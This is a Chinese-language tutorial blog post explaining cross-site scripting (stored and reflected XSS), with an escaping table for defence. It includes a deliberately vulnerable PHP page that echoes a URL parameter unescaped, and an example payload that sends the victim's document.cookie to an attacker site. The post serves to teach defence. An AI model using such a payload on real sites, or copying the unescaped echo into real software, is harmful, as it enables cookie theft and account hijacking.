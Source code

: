 ```yaml
---
title: XSS 攻击原理
date: 2017-04-05 14:12:50
tags: problem
---
```


XSS ：跨站脚本攻击（Cross Site Scripting）。为了区别于层叠样式表（Cascading Style Sheet）的缩写 CSS，一般将其缩写为 XSS。XSS 针对一种 web 安全漏洞，该漏洞允许攻击者将恶意脚本注入到用户接收到的网页中，以完成某种不利于用户的操作。

<!-- more -->

简单地说，攻击者可以利用 XSS 漏洞向用户发送攻击脚本，因为用户的浏览器并不知道这段脚本是恶意的，所以依然会执行它。这段恶意脚本可以像正常脚本一样访问 cookie、读取保存在浏览器里的敏感信息，甚至还可以改写页面，进行钓鱼攻击。

下面两个例子，会让我们对 XSS 有个直观的认识。

**场景一：**

攻击者在某网站评论页面，提交了一段可执行的 JavaScript 脚本（这里假设为“恶意脚本”），若服务器端接收到这段脚本后，没有进行过滤或者转义这段脚本，而是将其作为普通的内容发布到了用户评论区，那么，后续用户访问到这个页面后，就会执行这段注入的“恶意脚本”。

**场景二：**

网站 www.a.com 会根据 url 后参数 content 来呈现不同的内容，我们假设页面 index.php 代码如下：

```
<!DOCTYPE html>
<html>
<body>
<h1>接收的内容：</h1>

<?php
    echo $_GET['content'];
?>

</body>
</html>
```

当我们访问地址 http://www.a.com/index.php?content=test 时，页面输出内容就是 test。这样好像并没有什么问题，但是，如果攻击者将访问地址修改为 http://www.a.com/index.php?content=&lt;script&gt;window.open("www.b.com?param="+document.cookie)&lt;/script&gt;， 那么，问题就来了。当某人打开这个地址后，除了打开 www.a.com ，还会弹出一个新的窗口 www.b.com（攻击者的站点），并且带上他保存在本地的 cookie，这些 cookie 很可能包含了他的用户名、密码等私密信息，而这些信息都会被攻击者获取。

（当然了，安装上面步骤操作一遍，我们不一定能看到上面所说的现象，那是因为有些浏览器会自带一些保护性措施来防止这种 XSS 攻击）

XSS 攻击大体分为以上两类：

**① 存储式攻击**
主要出现在让用户输入数据，然后存入数据库的场景，比如留言、评论、博客日志和各类表单等。攻击者在这类页面输入恶意脚本后，若未经过滤直接入库，应用程序从数据库中读取这些“恶意脚本数据”，并在页面中发布出来，后续用户浏览此页面时就可能受到攻击。

**② 反射型攻击**
攻击者将恶意脚本代码加入 url 地址的请求参数里，应用程序接收到请求参数后，将参数直接输入，就可能引入可执行的代码块。用户点击类似的恶意链接就可能执行此代码块，受到攻击。

**归根结底，以上两类情况都是没有对用户提交的数据（参数）做过滤检查。所以，开发者应该有一个共识：永远不要相信用户的输入！对用户的输入进行过滤和审核是一个必要的环节！**

所以，依据以上分析：**预防 XSS 攻击的核心就是在输出不可信数据的时候进行编码，过滤特殊字符。**

```
<     ->  &lt;    
>     ->  &gt;
&     ->  &amp;
"     ->  &quot; 
"     ->  &#x27;
空格  ->  &nbsp;  
/     ->  &#x2f;  
```

以上编码转换能够防御一部分 XSS 攻击。实际生产过程中，具体问题还是应该具体分析。



参考：
[1] https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md
[2] http://blog.csdn.net/ghsau/article/details/17027893
[3] http://www.freebuf.com/articles/web/9977.html